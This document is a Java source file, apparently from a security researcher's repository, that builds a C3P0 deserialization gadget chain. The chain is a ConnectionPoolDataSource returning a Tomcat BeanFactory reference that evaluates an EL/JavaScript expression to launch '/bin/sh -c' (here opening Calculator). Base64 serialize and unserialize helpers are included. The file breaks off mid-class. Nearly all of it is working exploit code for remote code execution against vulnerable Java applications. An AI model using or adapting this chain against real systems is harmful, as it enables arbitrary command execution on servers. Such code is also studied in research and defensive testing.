 ```java
import java.sql.SQLFeatureNotSupportedException;
import java.util.Base64;
import java.util.logging.Logger;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/17 5:41 下午
 */
public class C3P0BeanFactory {

    public static String serialize(Object obj) throws Exception {

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(obj);
        byte[] expCode = byteArrayOutputStream.toByteArray();
        objectOutputStream.close();
        return Base64.getEncoder().encodeToString(expCode);
    }

    public static void unserialize(String expBase64) throws Exception {

        byte[] bytes = Base64.getDecoder().decode(expBase64);
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }

    private static class NotSerializable implements ConnectionPoolDataSource, Referenceable {

        private String classFactory;
        private String classFactoryLocation;

        public NotSerializable() {

            this.classFactory = "BeanFactory";
            this.classFactoryLocation = null;
        }

        public NotSerializable(String classFactory, String classFactoryLocation) {

            this.classFactory = classFactory;
            this.classFactoryLocation = classFactoryLocation;
        }

        @Override
        public Reference getReference() throws NamingException {

            ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
            //redefine a setter name for the 'x' property from 'setX' to 'eval', see BeanFactory.getObjectInstance code
            ref.add(new StringRefAddr("forceString", "x=eval"));
            //expression language to execute 'nslookup jndi.s.artsploit.com', modify /bin/sh to cmd.exe if you target windows
            ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','\"open -a Calculator\"']).start()\")"));

            return ref;
        }

        @Override
```